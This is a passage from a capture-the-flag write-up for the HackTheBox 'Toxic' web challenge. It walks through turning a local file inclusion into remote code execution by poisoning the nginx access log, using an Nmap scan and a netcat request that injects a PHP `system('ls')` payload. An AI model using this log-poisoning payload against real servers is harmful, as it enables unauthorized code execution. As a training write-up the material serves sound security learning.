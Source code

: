 Seeing as an LFI vulnerability was detected, the possibility of upgrading this to RCE is something of interest. A common methodology for converting an LFI vulnerability to RCE is log poisoning[\[2\]](#ftnt2), a process in which a malicious GET request causes a log file to execute PHP. Before performing the malicious GET request, the location of the access log must first be identified; this can be done with the help of Nmap and Google:

{% highlight bash %}
┌─\[✗\]─\[0xd4y@Writeup\]─\[~/business/hackthebox/challenges/web/toxic\]  
└──╼ $nmap -p 30746 167.99.88.212 -sC -sV -Pn  
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.  
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-30 00:50 BST  
Nmap scan report for 167.99.88.212  
Host is up (0.12s latency).  
  
PORT      STATE SERVICE VERSION  
30746/tcp open  http    nginx  
| http-cookie-flags: |   /:  
|     PHPSESSID:  
|\_      httponly flag not set  
|\_http-title: Dart Frog
{% endhighlight %}

Nmap detects the version running on the HTTP service to be nginx. After googling for the location of the file, it was found that the access log is located at /var/log/nginx/access.log[\[3\]](#ftnt3):

{% highlight bash %}
$ /var/log/nginx/access.log  
167.99.88.212 - 200 "GET / HTTP/1.1" "-" "python-requests/2.13.0" 
{% endhighlight %}

When a GET request with PHP is performed on the web server, code execution can be observed:

Request:

{% highlight bash %}
┌─\[✗\]─\[0xd4y@Writeup\]─\[~/business/hackthebox/challenges/web/toxic\]  
└──╼ $nc 167.99.88.212 30105  
GET/<?php system('ls');?>  
HTTP/1.1 400 Bad Request  
Server: nginxDate: Sun, 30 May 2021 05:44:42 GMT  
Content-Type: text/html; charset=utf-8  
Content-Length: 150Connection: close  
  
<html>  
<head><title>400 Bad Request</title></head>  
<body>  
<center><h1>400 Bad Request</h1></center>  
<hr><center>nginx</center>  
</body>  
</html>
{% endhighlight %}
